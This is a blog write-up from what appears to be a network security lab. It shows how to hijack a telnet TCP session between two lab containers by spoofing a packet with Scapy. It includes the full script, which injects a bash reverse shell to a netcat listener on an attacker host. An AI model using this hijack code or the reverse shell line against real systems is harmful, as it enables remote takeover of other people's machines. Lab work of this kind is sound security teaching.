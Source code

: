 +++
title = "TCP Attack Lab 3 - Obtaining a reverse shell"
date = "2023-05-01"
description = "Exploiting a TCP connection to obtain a reverse shell."

tags = ["network","security","writeups",]
+++


We hijack a TCP connection to give us a reverse shell.

In the second part of this series, we conducted a TCP hijack attack on a `telnet` connection between two users on the same LAN as a malicious actor.

In the third and final installment, we will go a step further to execute not an arbitrary command, but a reverse shell, a powerful technique that is commonly used in system exploits.


# Setup

The set up can be found in the [overview post](/blog/posts/tcp-attack-lab/0-overview).

 
# Hijacking a `telnet` Connection to Obtain a Reverse Shell

Following these steps will hijack a TCP connection between User 1 as the client and User 2 as the server. We will have the server give us a shell in a technique known as a reverse shell exploit.

First, I open Wireshark and monitor the LAN interface. I select the bridge interface starting with "br-". The characters following may change if you stop and start the containers in a separate occurrence.

Then, I use `telnet` to connect from User 1 to User 2.

!["wireshark initial"](/blog/images/tcp-reverse/wireshark-init.png)

Select the bridge interface.

---

Logging in to the `telnet` server (Remember: User 2) from the client generates network traffic that we will use to construct the hijack packet. 

!["telnet"](/blog/images/tcp-reverse/telnet.png)

The telnet connection between User 1 and User 2.

---

The last TCP packet sent from User 1 to User 2 will inform the source port, sequence, and acknowledgement numbers used in the hijack packet we will spoof from the attacker to the server.

!["wireshark data"](/blog/images/tcp-reverse/wireshark-data.png)

Using Wireshark to construct our packet.

---

# Using `netcat` to establish a TCP server

In order to see the output of the command, we will set up a TCP server using `netcat`. 

!["netcat initial"](/blog/images/tcp-reverse/netcat-init.png)

Using netcat to establish a TCP server to display exploit output.

---


# Running the exploit

The following code will send our reverse shell hijack packet:

```python
import argparse
from scapy.all import *

def spoof_hijack_packet(src_port, seq_num, ack_num):
	user1_ip = "10.9.0.6"
	user2_ip = "10.9.0.7"

	user1_port = src_port
	user2_port = 23

	ip = IP(src=user1_ip, dst=user2_ip)
	tcp = TCP(sport=user1_port, dport=user2_port, flags="A", seq=seq_num, ack=ack_num)
	data = "\r /bin/bash -i > /dev/tcp/10.9.0.1/9090 2>&1 0<&1 \r"

	pkt = ip/tcp/data

	print("SENDING REVERSE SHELL PACKET........")
	send(pkt)

if __name__ == "__main__":
	parser = argparse.ArgumentParser()
	parser.add_argument("-p", "--src_port", type=int, help="source port", required=True)
	parser.add_argument("-s", "--seq", type=int, help="last sequence number", required=True)
	parser.add_argument("-a", "--ack", type=int, help="last acknowledgement number", required=True)

	args = parser.parse_args()

	spoof_hijack_packet(args.src_port, args.seq, args.ack)
```

For convenience, I designed the program to take the source port number, sequence number, and acknowledgement numbers as arguments. I invoke it as follows with the data gathered from Wireshark.

!["attack"](/blog/images/tcp-reverse/python-attack.png)

Using netcat to establish a TCP server to display exploit output.

---

The `netcat` TCP server we established on port 9090 has given us a shell into User 2's machine. 

!["netcat after"](/blog/images/tcp-reverse/netcat-after.png)

A reverse shell has been granted.

---

Using this shell, I created a file called foo.txt in /home/seed. We can verify that the file was created. 

!["server"](/blog/images/tcp-reverse/server.png)

Files on the telnet server, User 2.

---

If you were to go back to the `telnet` connection, we see that the connection no longer takes input. This is because the machines have detected the funny business from our spoofed packet.


# That's it!

In this series we explored TCP RST and hijacking attacks and extended the hijacking attack to obtain a reverse shell.


### _Updated: May 1, 2023_